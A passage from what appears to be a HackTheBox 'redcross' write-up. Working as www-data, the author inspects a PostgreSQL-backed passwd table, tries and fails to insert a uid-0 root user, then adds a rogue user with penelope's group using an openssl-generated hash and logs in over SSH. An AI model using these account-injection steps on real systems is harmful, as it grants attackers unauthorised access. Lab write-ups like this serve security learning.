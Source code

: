     unix=>
    

The `passwd_table` has the following structure:

    
    
    unix=> select * from passwd_table;
     username  |               passwd               | uid  | gid  | gecos |    homedir     |   shell
    -----------+------------------------------------+------+------+-------+----------------+-----------
     tricia    | $1$WFsH/kvS$5gAjMYSvbpZFNu//uMPmp. | 2018 | 1001 |       | /var/jail/home | /bin/bash
    (1 row)
    

Additionally, different users for the database can add different parts. For
example, unixusrmgr can add users (as seen in the php code and I’ll show more
times below), but can’t set the user id:

    
    
    unix=> insert into passwd_table (username, passwd, uid, gid, homedir) values ('ro0xdft', '$1$wV7CPbj9$59kAklYgquXe5TuJYIT591', 0, 0, '/root');
    ERROR:  permission denied for relation passwd_table
    

#### Add User penel0xdf

I’ll add a user with group id that matches penelope, following the model from
`actions.php`. I remember the group id is 1000 from `/etc/passwd`:

    
    
    www-data@redcross:/var/www/html/admin/pages$ grep penelope /etc/passwd
    penelope:x:1000:1000:Penelope,,,:/home/penelope:/bin/bash
    

I’ll create a password:

    
    
    www-data@redcross:/home/penelope$ openssl passwd -1 0xdf
    $1$wV7CPbj9$59kAklYgquXe5TuJYIT591
    

Now I’ll add the user with penelope’s group:

    
    
    unix=> insert into passwd_table (username, passwd, gid, homedir) values ('penel0xdf', '$1$wV7CPbj9$59kAklYgquXe5TuJYIT591', 1000, '/home/penelope');
    INSERT 0 1
    

Now I can ssh in:

    
    
    root@kali# ssh penel0xdf@10.10.10.113
    penel0xdf@10.10.10.113's password: 
    Linux redcross 4.9.0-6-amd64 #1 SMP Debian 4.9.88-1+deb9u1 (2018-05-07) x86_64
    
    The programs included with the Debian GNU/Linux system are free software;
    the exact distribution terms for each program are described in the
    individual files in /usr/share/doc/*/copyright.
    
    Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
    permitted by applicable law.
    